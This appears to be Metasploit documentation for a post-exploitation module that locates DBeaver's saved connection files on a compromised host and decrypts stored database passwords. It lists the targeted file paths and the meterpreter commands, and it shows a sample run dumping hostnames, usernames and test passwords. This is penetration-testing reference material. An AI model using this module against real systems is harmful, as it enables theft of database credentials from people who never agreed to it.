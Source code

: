 ## Vulnerable Application
  DBeaver is free and open source universal database tool for developers and database administrators.

  This module will determine if Dbeaver is installed on the target system and, if it is, it will try to
  dump all saved session information from the target. The passwords for these saved sessions will then be decrypted
  where possible.

  Any Dbeaver version on any operating system are supported.

  If it works normally, the connection name, host, username and password saved in the certificate file will be printed

### Installation Steps

  1. Download and run the Dbeaver installer (https://dbeaver.io/files/). Since
     the encryption algorithm changed in version 6.1.3, it is recommended to
     test this module against a version below 6.1.3 and also against the latest
     version.
  2. Select default installation
  3. Open the software and create a database connection
     complete password setting, add the test account password to the certificate.

## Verification Steps

  1. Get a session.
  2. Do: `set session <session number>`
  3. Do: `run post/multi/gather/credentials/dbeaver`
  4. If the system has registry keys for Dbeaver passwords they will be printed out.

## Options

### XML_FILE_PATH

Specify an XML configuration file (eg.
`C:\Users\FireEye\.dbeaver4\General\.dbeaver-data-sources.xml` or
`C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver-data-sources.xml`).

### JSON_DIR_PATH

Specifies the config dir path for Dbeaver. Ensure that there are two files
`credentials-config.json` and `data-sources.json` under the directory (eg.
`"C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver`).

## Scenarios

```
meterpreter > run post/windows/gather/credentials/dbeaver

[*] Gather Dbeaver Passwords on FireEye
[+] dbeaver .dbeaver-data-sources.xml saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_319751.txt
[*] Finished processing C:\Users\FireEye\.dbeaver4\General\.dbeaver-data-sources.xml
[+] dbeaver credentials-config.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_334807.txt
[+] dbeaver data-sources.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_309767.txt
[*] Finished processing C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver
[+] Passwords stored in: /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_host.dbeaver_421133.txt
[+] Dbeaver Password
================

Name             Protocol    Hostname   Port  Username  Password        DB        URI                                        Type
----             --------    --------   ----  --------  --------        --        ---                                        ----
Test_MYSQL       mysql       localhost  3306  root      test_password   db        jdbc:mysql://localhost:3306/db             dev
Test_PostgreSQL  postgresql  localhost  5432  postgres  test_passwordr  postgres  jdbc:postgresql://localhost:5432/postgres  dev
localhost        mysql       localhost  3306  root      test_mysql      db        jdbc:mysql://localhost:3306/db             test
postgres         postgresql  localhost  5432  postgres  test_postgres   postgres  jdbc:postgresql://localhost:5432/postgres  prod

meterpreter >
```
